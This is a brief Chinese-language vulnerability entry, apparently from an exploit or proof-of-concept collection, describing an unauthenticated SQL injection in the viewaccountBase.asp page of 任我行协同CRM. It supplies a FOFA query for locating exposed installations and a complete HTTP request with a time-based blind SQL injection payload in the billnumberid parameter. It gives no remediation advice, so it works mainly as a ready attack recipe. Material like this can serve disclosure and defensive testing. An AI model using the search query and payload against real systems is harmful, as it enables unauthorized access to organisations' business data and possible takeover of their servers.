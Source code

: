 # 任我行协同CRM普及版viewaccountBase存在SQL注入漏洞

# 一、漏洞简介
任我行CRM是CRM（客户关系管理）、OA（自动化办公）、OM（目标管理）、KM（知识管理）、HR（人力资源）一体化的企业管理软件。通过建立组织运营管理铁三角（目标行动-企业文化-知识复制），一切围绕以客户为中心的全方位、透明化业务管理（市场-销售-生产-服务），打造企业组织高效协同的运营管理平台。任我行协同CRM存在SQL注入漏洞，远程未授权攻击者可利用此漏洞获取敏感信息，进一步利用可能获取目标系统权限。

# 二、影响版本
+ 任我行协同CRM

# 三、资产测绘
```
fofa:app="任我行软件-管家婆分销ERP"
```

# 四、漏洞复现
```plain
GET /common/viewaccountBase.asp?TimeCheckPoint=80685.73&billnumberid=-1%20waitfor%20delay%20%270:0:8%27--&billtype= HTTP/2
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: keep-alive
```
